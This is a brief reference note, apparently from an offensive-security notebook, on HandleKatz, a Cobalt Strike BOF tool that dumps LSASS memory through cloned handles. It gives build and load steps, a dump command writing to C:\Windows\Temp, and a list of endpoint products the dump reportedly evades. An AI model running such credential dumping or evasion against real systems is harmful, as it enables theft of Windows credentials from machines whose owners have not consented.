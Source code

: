 # Handlekatz

## [[LSASS dumping]]
*Make all* to build handlekatz.x64.o and handlekatz_bof.cna`
Put them into the same folder and load the .cna script.
`handlekatz <lsass-pid> C:\Windows\Temp\sql.bin`

```meta
requirements: 
results: 
oss: #win
source: https://github.com/EspressoCake/HandleKatz_BOF
description: This tool was implemented as part of our Brucon2021 conference talk and demonstrates the usage of cloned handles to Lsass in order to create an obfuscated memory dump of the same.
undetected:  MDE, BitDefender, Cylance, McAfee, Tanium
```